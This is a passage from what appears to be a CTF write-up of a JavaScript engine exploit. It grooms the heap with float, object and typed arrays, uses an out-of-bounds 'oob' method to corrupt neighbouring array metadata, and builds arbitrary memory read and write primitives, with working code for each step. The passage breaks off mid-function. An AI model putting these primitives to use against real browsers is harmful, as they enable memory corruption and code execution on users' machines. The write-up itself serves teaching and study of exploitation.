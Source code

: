 With some experimentation, I found that arrays of the form `[1, 2, 3]` and `[1.1, 2.2, 3.3]` are allocated in a totally different heap region from arrays such as:
 - `[{a:1}, {b:2}, {c:3}]`
 - `new Uint8Array(100);`
For this reason, I use these 3 arrays

```js
let floatArr = [1.1, 2.2, 3.3, {b:1}]
let objArr = [{a:1}, {a:2}, {b:2}]
let typedArr = new Uint8Array(300);
```
(Could `floatArr` also be an array of objects? Probably. Do I want to mess with my exploit stability? No.)
The purpose of each array is to overflow into the metadata of the next, because the elements of the array are allocated just after the metadata, making corruption convenient.

I've found that the offsets between objects tend to be fairly constant (even between the JS shell and the browser!), but opted to resolve them dynamically to increase stability.

```js
// Resolve floatArr OOB index
function ResolveFA() {
    // Not totally sure what this constant is, but it appears 16 bytes before the first objArr pointer
    for (var i = 0; i < 20; i++) {
        if (ftoi(floatArr.oob(i)) == 0x300000006n)
            return i - 2;
    }
}
FA = ResolveFA();
// Resolve objArr OOB index
function ResolveOA() {
    // Not totally sure what this constant is, but it appears 16 bytes before the typedArr backing pointer
    for (var i = 0; i < 20; i++) {
        if (ftoi(objArr.oob(i)) == 0x12cn)
            return i + 2;
    }
}

OA = ResolveOA();
```

Now, `floatArr.oob(FA)` will allow us to access the pointer to the elements of the `objArr` and `objArr.oob(OA)` will allow us to modify the backing pointer of the `typedArray`. The purpose of the first is to allow us to build an `addrof` primitive, and the second is to allow us to use our TypedArray access to write to memory directly, without needing to deal with any strange heap allocations or JSValue encoding.

## Arbritrary read/write

```js
function read(addr, count) {
    let bk = objArr.oob(OA);
    objArr.oob(OA, itof(addr));
    let ret = typedArr.slice(0, count);
    objArr.oob(OA, bk);
    return ret;
}
```
Our read primitive is simple - modify the backing store pointer of the `typedArr`, so that reading from said array will give us direct read access to the memory. The write primitive is essentially the inverse:
```js
function write(addr, data) {
    let bk = objArr.oob(OA);
    objArr.oob(OA, itof(addr));
```